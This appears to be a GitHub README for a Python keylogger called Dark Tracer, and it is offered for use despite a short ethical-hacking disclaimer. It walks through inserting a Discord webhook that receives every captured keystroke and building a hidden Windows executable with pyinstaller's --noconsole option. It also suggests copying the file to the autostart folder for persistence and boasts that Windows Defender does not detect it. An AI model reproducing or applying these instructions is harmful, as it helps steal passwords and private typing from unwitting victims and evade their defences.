 # Dark Tracer Keylogger
### *An advanced keylogger 100% Python*

![photo_2024-12-07_15-24-05](https://github.com/user-attachments/assets/ebe8a9d1-b2da-4935-81b0-d79ad6244e36)

# ⚠️ Disclaimer
This tool is released exclusively for:

- *Professional Penetration Testers*
- *Red Team Operators*
- *Security Researchers*
- *Certified Ethical Hackers*
- *Authorized Security Exercises*

***Like all security testing tools, Dark Tracer must only be used on systems and networks for which you have explicit written authorization. Improper use of this tool may violate local and international laws.***

# How it works
After creating the executable file (*.exe*) using *pyinstaller*, once you launch the file on a Windows machine, **the keylogger will work hidden, sending everything is typed with the keyboard to your Discord Webhook.**

![image](https://github.com/user-attachments/assets/c972f6c7-9ed0-4a94-b539-3b2be94c019b)


# How to use it
- Download the tool:
```bash
git clone https://github.com/Uriel-SG/DarkTracerKeylogger.git
```
- Edit the python code inserting your Discord Webhook:
```python
# URL del webhook Discord
WEBHOOK_URL = "https://discord.com/api/webhooks/YOUR-WEBHOOK-HERE"
```
- If you want, you can change the filename from dark_tracer.py to *whatever-you-want.py*;
- If you don't have it yet, install *pyinstaller*:
```bash
pip install pyinstaller
```
- Create your .exe file using *pyinstaller*:
```bash
pyinstaller --onefile --noconsole --hidden-import=pynput YOUR-FILE.py
```
(if you want you can add an icon adding *"--icon YOUR_ICO.ico"*)

- In the "dist" folder created you'll find the *.exe* file ready: *just start it*.

# 🧑‍💻 How to stop the process 
Simply open Windows Task Manager, locate the process, and end the task.

# 🔥 Future Improvements
To improve the project, the ideal would be to ensure that the executable file, once started, makes a copy of itself in the Windows "autostart" folder, so that the keylogger starts at every startup.

# 🛡️ Antivirus?
As you can see in the video, my ***Windows Defender doesn't detect the .exe file as a threat***. **Let me know!**

# Video Sample
[![Whatch the video](https://github.com/user-attachments/assets/da6c1213-5811-4b1b-9704-41d3d00cde68)](https://www.youtube.com/watch?v=Dea0IKQOwkI)
